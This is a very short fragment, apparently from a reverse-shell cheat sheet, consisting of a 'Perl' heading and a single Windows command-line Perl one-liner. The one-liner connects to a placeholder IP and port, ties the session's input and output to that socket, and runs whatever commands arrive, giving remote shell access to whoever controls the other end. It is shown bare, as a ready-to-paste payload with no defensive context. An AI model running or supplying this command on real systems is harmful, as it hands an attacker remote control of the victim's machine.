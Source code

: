 # Perl


`C:\> perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`